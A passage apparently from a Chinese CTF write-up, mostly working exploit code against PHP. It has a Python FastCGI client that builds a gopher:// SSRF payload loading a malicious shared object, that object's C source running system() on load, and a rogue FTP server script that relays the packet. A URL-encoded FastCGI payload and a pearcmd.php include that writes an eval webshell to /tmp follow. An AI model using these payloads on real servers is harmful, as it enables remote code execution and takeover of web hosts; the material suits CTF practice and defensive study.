            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)

        # self.sock.send(request)
        # self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        # self.requests[requestId]['response'] = b''
        # return self.__waitForResponse(requestId)
        return request

    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf

        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']

    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)


if __name__ == '__main__':

    host = '127.0.0.1'
    port = 9001

    client = FastCGIClient(host, port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = '/var/www/html/user.php'
    content = '<?php phpinfo();?>'
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On\nextension = /var/www/html/evil.so'
    }
    request_ssrf = urlparse.quote(client.request(params, content))
    print(force_text("gopher://" + host + ":" + str(port) + "/_" + request_ssrf))
```

关键在于 `PHP_VALUE` 和 `PHP_ADMIN_VALUE`, 利用这两个参数就可以更改绝大部分的 php 环境变量

查了下文档发现 `extension` 参数的可修改范围是 ` php.ini only`, 但是实际上也能够通过 `PHP_ADMIN_VALUE` 修改

但是它们仍然是不能修改 `disable_functions` 的, 也就是不能覆盖之前在 `php.ini` 中设置的值, 只能 append


上面利用 `extension` 参数指定要加载的恶意 so, 其中 so 源码如下

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("php -r \"echo file_put_contents('/var/www/html/flag.txt',file_get_contents('/flag'));\" -n");
}

// gcc -fPIC -shared evil.c -o evil.so
```

其实跟 `LD_PRELOAD` 的利用代码差不多, 原理都是利用 `__attribute__ ((__constructor__))` 修饰符使函数先于 main 执行 (类似构造函数)

ftp 被动模式脚本

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

最后用 `file_get_contents()` 触发 ftp 连接

```php
<?php

var_dump(file_put_contents("ftp://x.x.x.x:23/test.txt", urldecode("%01%01%82k%00%08%00%00%00%01%00%00%00%00%00%00%01%04%82k%01%FA%00%00%11%0BGATEWAY_INTERFACEFastCGI/1.0%0E%04REQUEST_METHODPOST%0F%16SCRIPT_FILENAME/var/www/html/user.php%0B%16SCRIPT_NAME/var/www/html/user.php%0C%00QUERY_STRING%0B%16REQUEST_URI/var/www/html/user.php%0D%01DOCUMENT_ROOT/%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9985%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP/1.1%0C%10CONTENT_TYPEapplication/text%0E%02CONTENT_LENGTH18%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0F8PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0Aextension%20%3D%20/var/www/html/evil.so%01%04%82k%00%00%00%00%01%05%82k%00%12%00%00%3C%3Fphp%20phpinfo%28%29%3B%3F%3E%01%05%82k%00%00%00%00")));
```


## Wallbreaker_Easy

emmm 蚁剑 bypass 插件可以直接秒

预期解是 `LD_PRELOAD` 配合 Imagick 启动新进程来执行命令, 非预期解是 `error_log()`

就不写了

## [HXBCTF 2021]easywill(pearcmd.php本地文件包含)

```php
<?php
namespace home\controller;
class IndexController{
    public function index(){
        highlight_file(__FILE__);
        assign($_GET['name'],$_GET['value']);
        return view();
    }
}
```

WillPHP v2.1.5

去看了下 gitee 发现作者竟然把之前的旧版本都删了, 只留下了最新的 v3 版本, 也是离谱

后来用百度找了一个下载站总算是弄到了源码

跟进 assign 方法


跟进 render


很明显的变量覆盖, 配合底下的 include 实现任意文件包含

`allow_url_include` 没开, 先试一下 pearcmd

```
/index.php?name=cfile&value=/usr/local/lib/php/pearcmd.php&+config-create+/<?=eval($_REQUEST[1]);?>+/tmp/hello.php 
```


